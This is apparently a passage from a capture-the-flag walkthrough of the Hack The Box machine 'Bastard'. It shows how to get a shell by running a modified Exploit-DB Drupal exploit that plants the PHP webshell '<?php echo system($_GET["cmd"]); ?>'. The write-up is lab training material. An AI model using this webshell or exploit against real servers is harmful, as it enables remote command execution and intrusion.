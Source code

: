 ## Getting a Shell as iusr

Firstly we will need to download the php-curl library from apt, this can be done with:

{% highlight bash linenos %}
sudo apt install php-curl
{% endhighlight %}

Next, we need to modify the [script](https://www.exploit-db.com/exploits/41564) from Exploit DB to include the rest endpoint, the ip of Bastard, the name of the php webshell to be placed and the contents of that php file, below are the values that I used.

![script](/images/bastard/webshell.png)

Specifically I changed the contents of the webshell to be,
{% highlight php linenos %}
<?php echo system($_GET["cmd"]); ?>
{% endhighlight %}

This will give us a nicer shell.

### Running the Exploit

Now that we have modified our PHP script, we can run it with the following command:

{% highlight php linenos %}
php Drupal-Exploit.php
{% endhighlight %}

![webshell-1](/images/bastard/exploit-2.png)
